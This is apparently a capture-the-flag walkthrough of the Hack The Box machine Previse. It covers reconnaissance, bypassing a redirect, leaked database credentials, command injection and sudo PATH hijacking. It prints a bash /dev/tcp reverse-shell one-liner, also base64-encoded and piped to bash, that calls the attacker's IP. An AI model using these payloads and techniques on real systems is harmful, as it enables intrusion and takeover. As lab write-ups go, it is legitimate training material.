

Previse is a Linux machine. The IP of the box is 10.10.11.104.

# Recon

I starting with *nmap* scan `nmap -A -T4 -oA nmap/previse 10.10.11.104`




And I found two services:
- *ssh*
- *webserver Apache*

On the web page there is a login page.


After web enum i  find several pages:


Start to navigate on `nav.php`  


and i intercept the request for `accounts.php` and  try to change the status code from 302 to 200.


and got the following page


and now can create an account.

# User

In the page `file.php`  there is a zip with a backup of site.


So i downloaded `SITEBACKUP.ZIP` and started to search for useful information, and i found a db credentials in `config.php`


and in `logs.php` found a potential RCE


So i tested the RCE


and so prepared a payload for a rev shell

`echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.195/9090 <&1'" | base64`

`echo "YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTQuMTk1LzkwOTAgPCYxJwo=" | base64 -d | bash`

and encode in url


and got it.

Now i have a shell as `www-data`


access to db with credentials retrieved before (root:mySQL_p@ssw0rd!:) credentials from config.php) and dumped the users.


Cracked the hash for the user `m4lwhere` with hashcat


login as `m4lwhere` and got user flag.


# Root

Now i launch `sudo -l`


and found that is possibile execute the script `access_backup.sh`

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

The script is vulnerable to $PATH manipulation for `gzip` and `data`.

So i create a file called `data` with a rev shell, added in $PATH and execute `access_backup.sh`


and grab flag


